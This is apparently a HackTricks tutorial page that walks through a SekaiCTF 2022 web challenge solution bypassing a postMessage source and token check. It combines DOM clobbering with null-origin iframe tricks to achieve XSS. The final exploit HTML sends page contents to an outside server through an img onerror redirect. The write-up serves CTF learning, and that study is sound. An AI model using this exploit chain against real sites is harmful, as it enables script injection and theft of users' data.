 # Bypassing SOP with Iframes - 2

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

If he does, he can send a **postmessage** with HTML content that is going to be written in the page with **`innerHTML`** without sanitation (**XSS**).

The way to bypass the **first check** is by making **`window.calc.contentWindow`** to **`undefined`** and **`e.source`** to **`null`**:

* **`window.calc.contentWindow`** is actually **`document.getElementById("calc")`**. You can clobber **`document.getElementById`** with **`<img name=getElementById />`** (note that Sanitizer API -[here](https://wicg.github.io/sanitizer-api/#dom-clobbering)- is not configured to protect against DOM clobbering attacks in its default state).
  * Therefore, you can clobber **`document.getElementById("calc")`** with **`<img name=getElementById /><div id=calc></div>`**. Then, **`window.calc`** will be **`undefined`**.
  * Now, we need **`e.source`** to be **`undefined`** or **`null`** (because `==` is used instead of `===`, **`null == undefined`** is **`True`**). Getting this is "easy". If you create an **iframe** and **send** a **postMessage** from it and immediately **remove** the iframe, **`e.origin`** is going to be **`null`**. Check the following code

```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```

In order to bypass the **second check** about token is by sending **`token`** with value `null` and making **`window.token`** value **`undefined`**:

* Sending `token` in the postMessage with value `null` is trivial.
* **`window.token`** in calling the function **`getCookie`** which uses **`document.cookie`**. Note that any access to **`document.cookie`** in **`null`** origin pages tigger an **error**. This will make **`window.token`** have **`undefined`** value.

The final solution by [**@terjanq**](https://twitter.com/terjanq) is the [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
    <body>
        <script>
            // Abuse "expr" param to cause a HTML injection and
            // clobber document.getElementById and make window.calc.contentWindow undefined
            open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');
            
            function start(){
                var ifr = document.createElement('iframe');
                // Create a sandboxed iframe, as sandboxed iframes will have origin null
                // this null origin will document.cookie trigger an error and window.token will be undefined
                ifr.sandbox = 'allow-scripts allow-popups';
                ifr.srcdoc = `<script>(${hack})()<\/script>`
                
                document.body.appendChild(ifr);
                
                function hack(){
                    var win = open('https://obligatory-calc.ctf.sekai.team');
                    setTimeout(()=>{
                        parent.postMessage('remove', '*');
                        // this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
                        // token=null equals to undefined and e.source will be null so null == undefined
                        win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
                    },1000);
                }
                
                // this removes the iframe so e.source becomes null in postMessage event.
                onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
            }
            setTimeout(start, 1000);
        </script>
    </body>
</html>
```

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
